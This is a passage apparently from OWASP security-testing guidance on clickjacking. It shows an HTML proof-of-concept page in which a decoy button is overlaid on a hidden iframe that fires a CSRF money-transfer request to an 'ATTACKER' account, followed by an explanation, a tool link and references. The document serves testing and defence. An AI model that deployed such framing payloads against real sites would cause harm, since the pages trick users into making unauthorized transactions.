 ```
	</head>
	<body>
		<div id="content">
			<h1>www.owasp.com</h1>
			<form action="http://www.owasp.com">
				<input type="submit" class="button" value="Click and go!">
			</form>
		</div>

                <iframe id="clickjacking" src="http://localhost/csrf/transfer.php?account=ATTACKER&amount=10000" width="500" height="500" scrolling="no" frameborder="none">
                </iframe>
	</body>
</html>

```


With the help of CSS (note the #clickjacking block) we can mask and suitably position the iframe in such a way as to match the buttons. If the victim click on the button "Click and go!" the form is submitted and the transfer is completed.

![Image:clickjacking_example_malicious_page_3.png|400px|thumb|center](https://www.owasp.org/images/thumb/4/43/Clickjacking_example_malicious_page_3.png/400px-Clickjacking_example_malicious_page_3.png)


The example presented uses only basic clickjacking technique, but with advanced technique is possible to force user filling form with values defined by the attacker.


##Tools
* Context Information Security: "Clickjacking Tool" - http://www.contextis.com/research/tools/clickjacking-tool/

## References
**OWASP Resources**
* [Clickjacking](https://www.owasp.org/index.php/Clickjacking)


**Whitepapers**
* Marcus Niemietz: "UI Redressing: Attacks and Countermeasures Revisited" - http://ui-redressing.mniemietz.de/uiRedressing.pdf
* "Clickjacking" - https://en.wikipedia.org/wiki/Clickjacking
* Gustav Rydstedt, Elie Bursztein, Dan Boneh, and Collin Jackson: "Busting Frame Busting: a Study of Clickjacking Vulnerabilities on Popular Sites" - http://seclab.stanford.edu/websec/framebusting/framebust.pdf
* Paul Stone: "Next generation clickjacking" - https://media.blackhat.com/bh-eu-10/presentations/Stone/BlackHat-EU-2010-Stone-Next-Generation-Clickjacking-slides.pdf
